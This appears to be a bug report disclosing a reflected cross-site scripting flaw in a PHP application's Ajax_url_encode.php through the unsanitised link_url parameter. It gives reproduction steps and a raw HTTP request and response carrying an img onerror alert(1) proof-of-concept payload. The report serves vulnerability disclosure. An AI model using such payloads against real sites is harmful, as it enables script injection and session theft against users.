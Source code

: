 # Description:

Because of lacking of sanitizer of input data at `$_REQUEST['link_url']` in `Ajax_url_encode.php` file, The Unauthenticated user can inject and execute javascript code on `link_url` parameter
![image](https://user-images.githubusercontent.com/54875703/131649372-9f2c37d6-31e0-471e-b515-90d8410e6d43.png)

Testing on local site:
![image](https://user-images.githubusercontent.com/54875703/131649432-7d5edb12-a593-4b77-9497-5ee890808d30.png)

Testing on demo site:
![image](https://user-images.githubusercontent.com/54875703/131649469-e857296c-cc7c-420d-97cd-6ab179cb8747.png)

# To Reproduce

## XSS 1

Steps to reproduce the behavior:
1. Acess `Ajax_url_encode.php` file 
2. Add `?link_url=[malicious script in here]` behind `Ajax_url_encode.php` file
3. The backend will echo and execute malicious script 
### Request

```
GET /Ajax_url_encode.php?link_url=%3Cimg%20src=x%20onerror=alert(1);%3E HTTP/1.1
Host: 172.16.0.12:2222
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=mebdcag3g6jknfb8edrmee7ijp
Upgrade-Insecure-Requests: 1

```

### Response

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 09:38:31 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Content-Length: 31
Connection: close
Content-Type: text/html; charset=UTF-8


<img src=x onerror=alert(1);>

```
